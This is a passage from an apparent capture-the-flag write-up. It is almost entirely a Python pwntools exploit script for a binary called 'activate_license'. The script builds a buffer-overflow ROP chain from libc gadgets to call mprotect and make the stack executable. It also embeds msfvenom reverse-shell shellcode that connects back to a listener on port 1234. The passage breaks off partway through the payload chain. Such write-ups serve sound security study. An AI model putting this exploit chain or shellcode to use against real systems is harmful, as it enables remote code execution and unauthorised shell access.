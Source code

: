 Done! Lets start building our exploit chain.

### Final local exploit
Putting all together:
```python
#!/usr/bin/env python3

from pwn import *

context.clear(arch='amd64')

# pwndbg> vmmap
libc_base = 0x7ffff7c79000
# pwndbg> vmmap
stack_base = 0x7ffffffde000

##########################################
#        FIND THE GADGETS ADDRESS        #
##########################################
# ldd activate_license | grep libc
# cp /lib/x86_64-linux-gnu/libc.so.6 .
# ropper --file libc.so.6 --search 'pop rdi; ret'
pop_rdi = 0x0000000000027c3d
# ropper --file libc.so.6 --search 'pop rdi; rsi'
pop_rsi = 0x000000000002940f
# ropper --file libc.so.6 --search 'pop rdi; rdx'
pop_rdx = 0x00000000000caa2d
# readelf -s libc.so.6 | grep mprotect
mprotect = 0x00000000000f81e0
# ropper --file libc.so.6 --search 'jmp rsp'
jmp_rsp = 0x00000000000465f8

filesize = p32(800, endian='big')

##########################################
#             REVERSE SHELL              #
##########################################
# msfvenom -p linux/x64/shell_reverse_tcp RHOST=127.0.0.1 LPORT=1234 -f py -b '\x00'
shellcode =  b""
shellcode += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05"
shellcode += b"\xef\xff\xff\xff\x48\xbb\xc6\x90\x7e\x57\xca\xcb\x72"
shellcode += b"\xeb\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
shellcode += b"\xac\xb9\x26\xce\xa0\xc9\x2d\x81\xc7\xce\x71\x52\x82"
shellcode += b"\x5c\x3a\x52\xc4\x90\x7a\x85\x0a\x63\x73\x83\x97\xd8"
shellcode += b"\xf7\xb1\xa0\xdb\x28\x81\xec\xc8\x71\x52\xa0\xc8\x2c"
shellcode += b"\xa3\x39\x5e\x14\x76\x92\xc4\x77\x9e\x30\xfa\x45\x0f"
shellcode += b"\x53\x83\xc9\xc4\xa4\xf9\x10\x78\xb9\xa3\x72\xb8\x8e"
shellcode += b"\x19\x99\x05\x9d\x83\xfb\x0d\xc9\x95\x7e\x57\xca\xcb"
shellcode += b"\x72\xeb"

##########################################
#             PAYLOAD CHAIN              #
##########################################
payload = b''
payload += filesize                  # bypass filesize validation
payload += b'A' * 520                # 520 bytes of padding
payload += p64(libc_base + pop_rdx)
payload += p64(0x7)                  # set mprotect to rwxp
payload += p64(libc_base + pop_rsi)
payload += p64(0x21000)              # pwndbg> vmmap  (stack_end - stack_start)
payload += p64(libc_base + pop_rdi)
payload += p64(stack_base)
payload += p64(libc_base + mprotect) # mprotect call
```